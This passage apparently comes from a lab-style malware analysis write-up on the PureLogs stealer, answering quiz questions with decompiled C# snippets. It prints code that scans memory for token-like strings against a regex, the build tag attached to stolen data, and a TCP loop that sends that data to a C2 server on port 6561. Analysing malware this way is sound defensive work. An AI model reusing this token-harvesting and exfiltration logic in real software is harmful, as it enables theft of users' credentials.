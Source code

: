 ```bash
									string @string = Encoding.ASCII.GetString(array, 0, count);
									Match match = regex.Match(@string);
									if (match.Success)
									{
										stealapp_cls.byte_2 = Encoding.UTF8.GetBytes(match.Value);
										break;
									}
								}
								intPtr2 = IntPtr.Add(intPtr2, array.Length);
							}
						}
					}
```

**[A-Za-z0-9-_]{16,}\\.[A-Za-z0-9-_]{40,}\\.[A-Za-z0-9-_]{40,}**

## 11. PureLogs adds a unique tag to the stolen data before sending it to the attacker. What is the exact string it adds to identify this specific build of the malware?
```bash
try
			{
				Main_cls.dictionary_0.Add("Group", GClass4.string_17);
			}
			catch
```
```bash
public static string string_17 = "test120922139213";
```

**test120922139213**

## 12. What port number does PureLogs use to communicate with its Command and Control (C2) server?
```bash
while (i <= 5)
			{
				try
				{
					using (TcpClient tcpClient = new TcpClient(GClass4.string_15, Convert.ToInt32(GClass4.string_16)))
					{
						using (NetworkStream stream = tcpClient.GetStream())
						{
							stream.Write(BitConverter.GetBytes(array2.Length), 0, 4);
							stream.Write(array2, 0, array2.Length);
							break;
						}
					}
				}
				catch
				{
					i++;
					Thread.Sleep(1000);
				}
			}
```
- tcpclient create connection using port `GClass4.string_16`
```bash
public static string string_16 = "6561";
```

